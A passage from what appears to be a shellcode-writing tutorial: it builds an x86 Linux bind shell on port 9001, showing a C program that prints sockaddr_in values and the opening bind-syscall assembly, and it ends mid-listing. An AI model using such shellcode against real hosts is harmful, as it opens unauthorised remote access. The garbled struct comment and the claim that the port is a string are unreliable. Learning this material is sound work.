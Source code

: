 int main(void){
        struct sockaddr_in server_addr;
        server_addr.sin_family = AF_INET;
        server_addr.sin_addr.s_addr = INADDR_ANY;
        server_addr.sin_port = htons(9001);

        printf("AF_INET: %d\n", server_addr.sin_family);
        printf("INADDR_ANY: %d\n", server_addr.sin_addr.s_addr);
        printf("SIZE OF: %d\n", sizeof(server_addr));
        return 0;
}
```

Compiling and executing the script gave me the following information:

```
root@kali:~/Documents/bindshell/misc# ./b.out 
AF_INET: 2
INADDR_ANY: 0
SIZE OF: 16
```

Now we know the AF_INET value, the INADDR_ANY value and the size of the completed struct - we can implement our own struct, push the data onto the stack correctly and obtain the address of this collection of data. The struct itself actually contains 4 different values, which can be seen in the below definition taken from https://www.cs.cmu.edu/~srini/15-441/S10/lectures/r01-sockets.pdf:

```
struct sockaddr_in {
    short sin_family;              // e.g. AF_INET
    ‏)3490(unsigned short sin_port; // e.g. htons
    struct in_addr sin_addr;       // see struct in_addr, below 
    char sin_zero[8];              // zero this if you want to
};
```

So now we know that the data we need to structure within our assembly is the following:
* AF_INET (2)
* The port number (I used 9001 - 0x2329)
* The IP ddress (0.0.0.0 as we are locally binding)
* 0

The address of this data structure needs to be placed in the 2nd parameter (ECX), luckily the ESP currently points to this data. We need to remember that the port number is of type string, and therefore should be pushed onto the stack as a “word”. With the final addition of the size being placed into the 3rd parameter (EDX), the bind system call is ready to be executed.

```
; BIND syscall
xor eax, eax          ; zero out eax
mov eax, 0x169        ; move 361 into syscall register
mov ebx, edi          ; move fd (edi val) into ebx - param 1
